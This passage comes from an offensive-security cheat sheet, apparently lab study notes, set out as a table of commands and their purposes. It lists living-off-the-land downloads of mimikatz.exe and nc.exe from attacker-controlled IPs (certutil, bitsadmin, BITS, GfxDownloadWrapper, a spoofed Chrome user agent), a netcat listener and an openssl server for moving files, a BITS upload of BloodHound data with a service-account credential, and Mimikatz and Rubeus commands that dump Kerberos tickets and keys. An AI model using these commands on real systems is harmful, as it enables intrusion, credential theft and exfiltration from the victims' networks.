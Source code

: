 | ``sudo nc -lvnp 80`` | File Received in our Netcat Session |

| ``GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe" `` | Transfer file with GfxDownloadWrapper.exe |

| `**OPENSSL**` |  |

| ``openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`` | Create Certificate in our Pwnbox |

| ``openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh`` | Stand up the Server in our Pwnbox |

| ``$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome & Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"`` | Download via Chrome user Agent |

| ``openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh`` | Download File from the Compromised Machine |

| `**Other Common Living off the Land tools Powershell**` |  |

| ``bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`` | File Download with Bitsadmin |

| ``Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"`` | PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers. DOWNLOAD |

| ``Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql`` | UPLOAD |

| ``certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`` | Download a File with Certutil -CMD |

| `-----------------------------------------------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------------------------------ |

| `**Mimikatz - Export Tickets**` | Command Prompt |

| ``mimikatz.exe`` |  |

| ``privilege::debug`` |  |

| ``sekurlsa::tickets /export`` |  |

| `**Rubeus - Export Tickets**` | Command Prompt |

| ``Rubeus.exe dump /nowrap`` |  |

| `**Pass the Key or OverPass the Hash**` |  |

| `Mimikatz - Extract Kerberos Keys` | Command Prompt |

| ``sekurlsa::ekeys`` |  |

| `Mimikatz - Extract Kerberos Keys` |  |
